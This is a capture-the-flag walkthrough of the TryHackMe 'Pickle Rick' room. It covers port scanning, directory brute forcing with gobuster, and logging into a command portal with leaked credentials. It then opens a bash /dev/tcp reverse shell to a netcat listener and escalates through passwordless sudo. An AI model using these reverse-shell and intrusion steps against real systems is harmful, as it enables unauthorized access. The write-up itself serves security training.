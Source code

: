 # CTF-Write-up

## Try Hack Me - Pickle Rick

##### URL: https://tryhackme.com/room/picklerick

##### Created by _tryhackme_

![logo13](https://user-images.githubusercontent.com/20625004/106916580-053db580-6710-11eb-8f5e-da88c6f75659.PNG)

##### You should deploy the machine first.
#

##### Run nmap against the target machine.

```nmap <target IP>```

![logo3](https://user-images.githubusercontent.com/20625004/106917548-08857100-6711-11eb-8781-fcc2fc1ded56.PNG)

##### SSH and HTTP services are only available.

##### We access the target IP on port 80.

![logo1](https://user-images.githubusercontent.com/20625004/106918014-80ec3200-6711-11eb-98be-aef684379d8f.PNG)


##### We have a web site with little information, apart from the fact that Rick wants our help, now lets check the source code of the page.

![logo2](https://user-images.githubusercontent.com/20625004/106918406-d6c0da00-6711-11eb-97e3-f345f157327d.PNG)

##### Nice and simple we have obtained a username ```@@@@@@```. So somewhere there has to be a login portal.

#
##### Now lets brute force the directories of the web page in order to find any hidden from us.
##### using ```dirb``` or ```gobuster``` should do the job.

```gobuster dir -u <target IP> -u /usr/share/wordlists/dirb/common.txt```

##### With the above command we can find directories in a web site, it relies on wordlists so you should check in the path ```/usr/share/wordlists``` and choose the wordlist you want to check.

![logo4](https://user-images.githubusercontent.com/20625004/106919453-d412b480-6712-11eb-8f34-067477036545.PNG)

##### OK we found something, now lets check the robots.txt path.

![logo5](https://user-images.githubusercontent.com/20625004/106920461-c6116380-6713-11eb-9a91-1a8a727016a6.PNG)

##### OK that is something which we can try later on. But we have not found yet a portal. From the wordlist we used before we were not able to find a portal, so we can choose another one or try manual checks, such as login.php.

##### Bingo 

![logo6](https://user-images.githubusercontent.com/20625004/106926862-34592480-671a-11eb-84cc-e055b4ebf939.PNG)

##### We found the portal, now lets try the username we found from the source code of the webpage ```http://<target IP>:80``` and for the password let's use the one we found on ```robots.txt``` path.

![logo7](https://user-images.githubusercontent.com/20625004/106927153-90bc4400-671a-11eb-91ca-f316ca578fdf.PNG)

##### We now have access to the command portal.
##### Let's use some command and see what happens, just type ```ls -l```.

![logo8](https://user-images.githubusercontent.com/20625004/106927901-4edfcd80-671b-11eb-8b35-c1249e8a0e3a.PNG)

##### The command outputs some files, an intersting is ```Sup3rS3cretPickl3Ingred.txt```, ok just access it in the web browser ```http://<target IP>:80/Sup3rS3cretPickl3Ingred.txt```

![logo9](https://user-images.githubusercontent.com/20625004/106928625-0d035700-671c-11eb-87df-4d092803ee92.PNG)

##### And we have our first ingredient.

##### Since we can execute commands we are going to try and use reverse shell. Good info can be found in the below links regarding reverse shell.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://github.com/security-cheatsheet/reverse-shell-cheatsheet

##### fire up ```nc```

```nc -lvnp 8080```
```listening on [any] 8080 ...```

##### Our listener is up and ready
##### Now go to the command panel of the webpage and add the reverse shell.
```bash -c 'bash -i >& /dev/tcp/<Your IP>/<Listening Port same as in nc> 0>&1'```.


##### It worked, and now we have access to the machine.

![logo11](https://user-images.githubusercontent.com/20625004/106932584-96b52380-6720-11eb-9490-abb4ef570ed5.PNG)

##### By looking around and accessing the folder ```/home/rick/``` we found the second ingredient.

##### Further by issuing the command ```sudo -l ``` we observe that the user can execute sudo commands without the need for a password.
##### Looking around on the ```/root/``` directory we can find the third ingredient.


![logo12](https://user-images.githubusercontent.com/20625004/106933324-72a61200-6721-11eb-9f07-305665184df6.PNG)



